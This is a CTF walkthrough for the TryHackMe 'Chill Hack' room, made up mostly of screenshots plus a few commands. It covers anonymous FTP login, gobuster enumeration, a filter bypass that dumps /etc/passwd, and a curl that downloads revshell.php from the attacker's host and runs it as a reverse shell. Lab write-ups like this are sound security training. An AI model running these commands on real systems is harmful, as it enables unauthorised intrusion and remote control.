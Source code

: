 ### 05-Mar-24-Tue

[TryHackMe | Chill Hack](https://tryhackme.com/room/chillhack)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/20125be3-3285-4fb8-8d6d-a1039d894eb3)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f5952956-8ae0-4b57-8140-a605155da40c)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/32105c8c-02f4-4227-ae55-e2737ad24c6b)

```
ftp anonymous@10.10.20.118
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/c5d4cc88-cd0f-42d2-93ff-bcccd99b3ae6)

http://10.10.20.118/

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/88042967-dc26-4fd8-926d-b9f4be79772d)

```
gobuster dir -u http://10.10.52.188/ -w /usr/share/wordlists/dirb/common.txt
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/40de5bad-b385-4548-9560-b21011b14742)

http://10.10.52.188/secret/

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/55083eda-f85e-4f15-8e9c-004b6de3ebe7)

```
pwd
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/7b5c0104-b6d4-4586-bc20-118ed2f17bed)

```
whoami
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6fe99637-ff56-47ad-83d6-b9bb0bf22dc2)

```
which python
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/1f9aa056-696b-4586-884d-74c8ee934327)

https://dangilbert.gitbook.io/try-hack-me/writeups/chillhack

```
echo $(cat /etc/passwd)
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/896d458f-3e28-4bbe-a8f1-546698f021ec)

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false sshd:x:110:65534::/run/sshd:/usr/sbin/nologin aurick:x:1000:1000:Anurodh:
/home/aurick:/bin/bash mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false apaar:x:1001:1001:,,,:
/home/apaar:/bin/bash anurodh:x:1002:1002:,,,:
/home/anurodh:/bin/bash ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```

```
echo $(cat index.php | base64)
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f5c5fa68-22d5-45be-9f41-244176e47fc0)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/cf668110-d0b2-4f94-9035-c2123a4fe096)

```
curl http://10.17.44.152:8000/revshell.php -o /dev/shm/revshell.php
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/34af0cc9-4eec-4a15-b3bb-319896e277cb)

```
php7.2 /dev/shm/revshell.php
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b7c9c84b-8034-4b2c-b277-b23aea6369c2)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6c193fe4-592b-49ca-a7c5-ddb60271faf0)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6bda7e47-ba46-4fd4-90b5-8ea9df271f84)

